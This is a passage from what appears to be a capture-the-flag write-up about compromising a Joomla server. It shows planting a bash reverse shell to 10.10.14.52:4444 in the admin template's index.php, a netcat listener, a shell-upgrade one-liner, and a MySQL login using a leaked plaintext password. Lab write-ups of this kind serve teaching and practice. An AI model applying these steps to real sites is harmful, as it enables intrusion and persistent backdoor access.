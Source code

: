 With our new credentials we are able to enter the Joomla administrator panel, once inside we can modify the admin template code to inject a reverse shell, in particular if we modify `index.php` each time we go to the home of the admin panel de reverse shell will be launched, to do so we add this line to `index.php`   `system("bash -c 'sh -i >& /dev/tcp/10.10.14.52/4444 0>&1'");`
Now before launching the reverse shell we launch the listener with `nc -lvnp 4444`.

Once inside we improve the terminal `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### MYSQL Service
As we don't have even a normal user account we must do a lateral movement first, to do this we can use the database credentials we found earlier, the command to access the database is ` mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##`.
The first step inside the database as always is to list all the existing tables
```
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
```
